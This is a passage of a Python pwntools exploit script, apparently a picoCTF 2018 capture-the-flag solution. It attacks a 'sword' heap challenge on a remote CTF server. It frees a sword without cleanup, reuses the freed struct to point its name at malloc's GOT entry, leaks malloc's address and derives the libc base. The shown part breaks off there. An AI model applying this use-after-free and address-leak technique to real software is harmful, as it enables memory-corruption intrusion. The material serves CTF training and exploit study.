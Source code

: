 ```python

def destroy_sword(id):
    read_menu()
    p.sendline("4")
    p.recvuntil("What's the index of the sword?\n")
    p.sendline(str(id))
    log.info("Sword #{} destroyed".format(id))

def harden_sword(id, name_length, name, weight):
    read_menu()
    p.sendline("5")
    p.recvuntil("What's the index of the sword?\n")
    p.sendline(str(id))
    p.recvuntil("What's the length of the sword name?\n")
    p.sendline(str(name_length))
    if name_length > MAX_SWORD_LEN:
        log.info("Sword #{} pseudo-freed".format(id))
        return
    p.recvuntil("Plz input the sword name.\n")
    p.sendline(str(name))
    p.recvuntil("What's the weight of the sword?\n")
    p.sendline(str(weight))
    p.recvline()
    log.info("Sword #{} hardened with name '{}' (length: {}, weight: {})".format(id, name.encode("hex"), name_length, weight))
    
def equip_sword(id):
    read_menu()
    p.sendline("6")
    p.recvuntil("What's the index of the sword?\n")
    p.sendline(str(id))
    log.info("Sword #{} used".format(id))

e = ELF(PROGRAM)
libc = ELF(LIBC)

p = remote("2018shell3.picoctf.com", 44116)


sword_ids = []
for i in range(4):
    sword_ids.append(forge_sword())

#Free sword without cleaning up:
harden_sword(sword_ids[0], MAX_SWORD_LEN+1, None, None)


sword = sword_s()
sword.name_len = 8 #size of pointer
sword.weight = 0
sword.sword_name = (e.got['malloc'])
sword.use_sword = 0 
sword.is_hardened = 0

harden_sword(sword_ids[1], sizeof(sword), sword.to_bytes(), -1)
malloc_addr = show_sword(sword_ids[0])
malloc_addr = u64(malloc_addr.ljust(8, '\x00'))
log.info("Address of malloc: {}".format(hex(malloc_addr)))
libc_base = malloc_addr - libc.symbols['malloc']
log.info("LibC base: {}".format(hex(libc_base)))
assert (libc_base & 0xFFF == 0)

#Free sword without cleaning up:
```